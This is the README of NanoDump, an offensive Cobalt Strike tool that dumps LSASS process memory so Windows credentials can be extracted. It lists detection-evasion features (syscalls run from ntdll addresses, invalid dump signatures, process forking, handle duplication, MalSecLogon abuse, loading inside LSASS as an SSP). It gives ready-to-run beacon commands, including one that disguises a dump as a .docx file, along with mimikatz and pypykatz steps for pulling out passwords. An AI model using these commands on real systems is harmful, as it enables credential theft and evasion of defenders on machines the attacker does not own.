 # NanoDump

A flexible tool that creates a minidump of the LSASS process.

![screenshot](demo.png)

### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- Windows APIs are called using dynamic invoke
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- Supports process forking to avoid the permission `PROCESS_VM_READ`
- Supports handle duplication
- Supports MalSecLogon
- You can load nanodump in LSASS as a Security Support Provider (SSP)
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile (optional)

###### On Linux with MinGW

```bash
make -f Makefile.mingw
```

###### On Windows with MSVC

```bash
nmake -f Makefile.msvc
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command in the Beacon console.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### Get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

### Load nanodump as an SSP
You can load nanodump as an SSP in LSASS to avoid opening a handle. The dump will be written to disk with an invalid signature at `C:\Windows\Temp\nano.dmp`. Once the dump is completed, `DllMain` will return FALSE to make LSASS unload nanodump.  
To access this functionality, use the `load_ssp` command.  
To change the dump path and signature configuration, modify the function `NanoDump` in [entry.c](source/entry.c) and recompile.


## Parameters

#### --getpid
Get PID of LSASS and leave.  
This is just for convenience, nanodump does not need the PID of LSASS.

#### --write -w < path > (required for EXE)
Where to write the dumpfile.
* **BOF**: If this parameter is not provided, the dump will be downloaded in a fileless manner.
* **EXE**: This parameter is required given that no C2 channel exists

#### --valid -v
The minidump will have a valid signature.  
If not entered, the signature will be invalid. Before analyzing the dump restore the signature of the dump, with:  
`bash restore_signature.sh <dumpfile>`  

#### --fork -f
Create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to read LSASS directly.

#### --dup -d
List all the handles in the system and look for an existing handle to LSASS. If found, duplicate it and access LSASS with it. This eliminates the need to open a new handle to LSASS directly.  
*(Be aware that there is no guarantee to find such handle)*

#### --malseclogon -m
Leak a handle to LSASS by abusing SecLogon with `CreateProcessWithLogonW`. This eliminates the need to open a new handle to LSASS directly.  
When this option is used, errors while analyzing the minidump are to be expected. Use the latest version of pypykatz.  
**If used as BOF, an unsigned binary will be written to disk unless --dup is also provided!**

#### --binary -b < path >
Path to a binary such as `C:\Windows\notepad.exe`.  
This option is used exclusively with `--malseclogon` and `--dup`. If used, nanodump will create that process and use MalSecLogon to leak an LSASS handle in it. Then, it will duplicate that handle and use it to access LSASS.  
The created process is then terminated automatically.


## Examples

Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use MalSecLogon to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --malseclogon --dup --fork --binary C:\Windows\notepad.exe --valid
```

Get a handle with MalSecLogon, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --malseclogon --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --dup --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```

Load nanodump in LSASS as an SSP remotely:
```
beacon> load_ssp \\10.10.10.10\openShare\nanodump_ssp.x64.dll
```

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [MalSecLogon](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
